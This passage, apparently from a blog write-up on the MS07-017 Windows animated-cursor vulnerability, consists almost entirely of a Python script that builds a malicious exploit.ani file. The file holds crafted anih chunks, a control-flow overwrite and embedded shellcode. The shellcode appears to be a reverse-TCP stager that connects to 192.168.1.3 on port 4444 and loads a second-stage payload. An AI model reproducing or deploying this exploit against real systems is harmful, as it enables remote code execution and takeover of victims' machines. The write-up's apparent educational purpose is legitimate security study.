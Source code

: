 ```python
payload += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
payload += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
payload += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
payload += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
payload += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
payload += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff"
payload += b"\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29"
payload += b"\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x03"
payload += b"\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40"
payload += b"\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a"
payload += b"\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0"
payload += b"\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00"
payload += b"\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
payload += b"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00"
payload += b"\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff"
payload += b"\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8"
payload += b"\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40"
payload += b"\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
payload += b"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c"
payload += b"\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff"
payload += b"\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56"
payload += b"\x6a\x00\x53\xff\xd5\x90"

payload_anih  = b"\x61\x61\x61\x61" + struct.pack('i',len(payload)) + payload                       # aaaa + size + shellcode


# Chunk with JMP [EBX]
shellcode  = b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41"
shellcode += b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41"
shellcode += b"\x00\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41"
shellcode += b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x41\x41\x41\x41" + b"\x00\x00\x00\x00"
shellcode += b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00"
shellcode += b"\x42\x42\x42\x42" + b"\x0B\x70"

exploit_anih  = b"\x61\x6E\x69\x68" + struct.pack('i',len(shellcode)) + shellcode                   # anih + size + shellcode


length = b"\xeb" + struct.pack('i', 2 + len(valid_anih+acon) + 8)[0:3]

ani = riff + length + acon + valid_anih + payload_anih + exploit_anih

f = open('exploit.ani','w+b')
f.write(ani)
f.close()
```

And this is our final ANI file:

<p align="center"><img src="/img/blog/2019/ms07-017/1*1T_08Yn3yUlPICcmUj32pQ.png" /></p>
